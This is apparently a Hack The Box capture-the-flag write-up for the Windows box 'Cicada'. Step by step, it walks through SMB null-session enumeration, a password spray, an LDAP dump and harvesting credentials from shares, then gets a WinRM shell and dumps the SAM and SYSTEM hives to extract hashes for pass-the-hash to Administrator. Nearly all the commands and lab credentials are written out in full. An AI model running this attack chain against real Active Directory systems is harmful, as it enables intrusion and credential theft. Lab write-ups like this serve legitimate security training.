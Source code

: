 # 🦋 HTB: Cicada

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - Null‑session SMB enumeration 🗂️  
  - Password spray via `netexec` 🔧  
  - LDAP dump with `ldapdomaindump` 📋  
  - SMB share discovery & credential harvest 🔍  
  - WinRM shell with `evil-winrm` 🪓  
  - Priv‑Esc: `SeBackupPrivilege` → `reg save` → `impacket‑secretsdump` → Pass‑the‑Hash  

---

## 🕵️ Recon

```bash
# fast full-port + default scripts
sudo nmap -sC -sV -p- 10.129.198.41 -oA nmap/cicada

# check null‑session SMB shares
nxc smb 10.129.198.41 -u guest -p '' --shares
```

- **SMB** (445) – null‑session allows listing `HR` share
- **Kerberos** (88), **LDAP** (389/636/3268/3269), **WinRM** (5985)

---

## 💥 Initial Foothold

1. **SMB null‑session → HR share**  
   ```bash
   smbclient //10.129.198.41/HR -U guest
   smb: \> get "Notice from HR.txt"
   ```
2. **Notice from HR.txt** contains default password  
   ```
   Cicada$M6Corpb*@Lp#nZp!8
   ```
3. **RID‑brute** to enumerate users  
   ```bash
   nxc smb 10.129.198.41 -u guest -p '' --rid-brute > rids.txt
   awk -F'\\\\|\\(' '{print $2}' rids.txt | tail -n +5 > users.txt
   ```
4. **Password spray** against user list  
   ```bash
   nxc smb 10.129.198.41 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' \
     --continue-on-success
   ```
   → **michael.wrightson** authenticated ✅

5. **LDAP dump** with valid creds  
   ```bash
   ldapdomaindump -u cicada.htb\\michael.wrightson \
     -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.198.41 -o ldapdump
   ```
6. **Found `david.orelious` password** in LDAP attribute →  
   `aRt$Lp#7t*VQ!3`

---

## 🔍 Pivot & Credential Harvest

1. **SMB with `david.orelious`**  
   ```bash
   smbclient //10.129.198.41/DEV -U david.orelious
   smb: \> get Backup_script.ps1
   ```
2. **Backup_script.ps1** reveals **`emily.oscars:Q!3@Lp#M6b*7t*Vt`**  
3. **WinRM shell as Emily**  
   ```bash
   evil-winrm -i 10.129.198.41 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
   ```
4. **Grab user flag**  
   ```powershell
   type C:\Users\emily.oscars.CICADA\Desktop\user.txt
   # => d333d*********************
   ```

---

## 🚀 Privilege Escalation

1. **Check Emily’s privileges**  
   ```powershell
   whoami /priv
   # SeBackupPrivilege          Enabled
   # SeRestorePrivilege         Enabled
   ```
2. **Dump SAM & SYSTEM hives**  
   ```powershell
   mkdir C:\temp
   reg save hklm\sam C:\temp\sam.hive
   reg save hklm\system C:\temp\system.hive
   ```
3. **Download hives to Kali**  
   ```powershell
   download C:\temp\sam.hive
   download C:\temp\system.hive
   ```
4. **Extract NT hashes**  
   ```bash
   impacket-secretsdump -sam sam.hive -system system.hive local
   # Administrator:500:…:2b87e7c93a3e8a0ea4a581937016f341
   ```
5. **Pass‑the‑hash as Administrator**  
   ```bash
   impacket-psexec cicada.htb/Administrator@10.129.198.41 \
     -hashes 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341'
   ```
6. **Get SYSTEM shell & root flag**  
   ```powershell
   type C:\Users\Administrator\Desktop\root.txt
   # => 84702***********************
   ```

---

## 🎉 Results

- **User flag**: `d333d*********************`  
- **Root flag**: `84702***********************`  

---

## 🛠 Tools & References

- **SMB & Kerberos**: `nmap`, `netexec`, `smbclient`  
- **LDAP dump**: [ldapdomaindump](https://github.com/BloodHoundAD/ldapdomaindump)  
- **WinRM**: [`evil-winrm`](https://github.com/Hackplayers/evil-winrm)  
- **Priv‑Esc**: [`impacket`](https://github.com/SecureAuthCorp/impacket)  

✌️ Happy hacking!